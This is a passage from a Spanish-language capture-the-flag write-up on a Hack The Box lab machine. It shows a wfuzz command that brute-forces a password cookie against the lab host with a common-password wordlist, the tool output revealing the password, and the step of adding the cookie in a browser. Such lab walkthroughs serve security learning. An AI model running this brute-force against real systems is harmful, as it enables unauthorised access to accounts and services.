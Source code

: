 ```null
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 04 Apr 2023 15:49:47 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 324

<!DOCTYPE html>
<html lang="en">
<head>
<title>Internal Dev</title>
	<meta charset="UTF-8">
	<meta name="viewport" content="initial-scale=1, maximum-scale=1, user-scalable=no, width=device-width">
</head>
<body>
<div class="container wrapper">

Access denied: password authentication cookie incorrect

</div>
</body>
</html>
```

Vuelvo a fuzzear por la contraseña

```null
wfuzz -c --hh=324 -t 70 -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=FUZZ" -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt http://10.10.10.86:8080
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.86:8080/
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000107:   200        21 L     48 W       540 Ch      "secret"  
```

Añado la cookie al ```Chromium```

<img src="/writeups/assets/img/Phoenix-htb/6.png" alt="">

Ya puedo cargar el contenido
